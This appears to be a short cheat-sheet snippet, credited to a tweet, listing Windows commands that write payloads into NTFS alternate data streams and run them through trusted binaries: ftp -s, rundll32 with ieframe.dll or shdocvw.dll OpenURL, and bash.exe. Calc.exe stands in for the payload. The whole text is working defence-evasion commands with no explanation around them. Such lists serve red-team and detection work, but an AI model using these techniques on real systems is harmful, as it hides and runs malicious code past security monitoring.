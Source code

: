 * FTP  ( Alternate data streams ) <br>
`echo !calc.exe > fakefile.txt:aaaa.txt && ftp -s:fakefile.txt:aaaa.txt`
* ieframe.dll , shdocvw.dll  (ads) <br>
`echo [internetshortcut] > fake.txt:test.txt && echo url=C:\windows\system32\calc.exe  >> fake.txt:test.txt`
`rundll32.exe ieframe.dll,OpenURL C:\temp\ads\fake.txt:test.txt` <br>
`rundll32.exe shdocvw.dll,OpenURL C:\temp\ads\fake.txt:test.txt`
* bash.exe (ads) <br>
`echo calc > fakefile.txt:payload.sh && bash < fakefile.txt:payload.sh` <br>
`bash.exe -c $(fakefile.txt:payload.sh)` <br>

https://twitter.com/404death/status/1174571181581557761
